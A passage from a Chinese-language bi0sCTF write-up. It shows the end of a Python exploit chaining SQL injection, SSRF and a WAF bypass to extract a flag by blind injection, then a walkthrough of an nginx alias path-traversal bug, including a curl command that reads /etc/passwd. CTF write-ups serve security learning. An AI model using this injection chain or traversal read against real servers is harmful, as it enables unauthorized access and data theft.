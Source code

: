 ```py
            username = hijack_tpl.format(token, len(sqli), sqli)

            # login
            s.post(f"{base_url}/login.php",
                   data={'username': username, 'submit': ''})

            # create folder
            s.get(f'{base_url}/index.php?new=http:')

            # upload txt
            s.post(f'{base_url}/index.php',
                   data={'path': 'http:', 'submit': ''},
                   files={'file': ('.txt@waf', io.BytesIO())})  # an empty file-like object is ok

            # get txt file name
            txt = re.search(r"@waf'>(?P<txt>[^<]*)",
                            s.get(f"{base_url}/view.php?fol=http:").text).group('txt')

            # ssrf -> bypass waf -> blind sqli, fol=. or fol=/
            if 'INDEX' not in s.get(f"{base_url}/view.php?fol=.&file=http://{txt}").text:
                flag += token
                print(f"bi0sctf{{{flag}}}", end='\r')
                break

print()

```

### PyCGI(misc?):

#### 任意文件读取:

这道题的附件很简单，在 `nginx.conf` 里面可以发现一个任意文件读取：

```
ocation /static {
    alias /static/;
}
```

通过 `curl http://instance.chall.bi0s.in:10332/static../etc/passwd --path-as-is` 就可以实现任意文件读取。

#### 探索题目环境:

由于题目附件给的东西很少，所以需要我们自己利用任意文件读取去取环境里面的东西，在靶机的根目录下有三个文件夹

![](https://imgur.com/m5owfxb.png)

`cgi-bin` 需要 HTTP 认证暂时先跳过, `database` 下面是一个 csv，`templates` 打开有一个 form

![](https://imgur.com/SpQN9wR.png)

提交之后会跳转到一个 404 的路径 `http://instance.chall.bi0s.in:10332/templates/search_currency.py?currency_name=a`，猜测 `cgi-bin` 下有一个 `search_currency.py`，于是通过任意文件读取拿到了 `/panda/cgi-bin/search_currency.py`
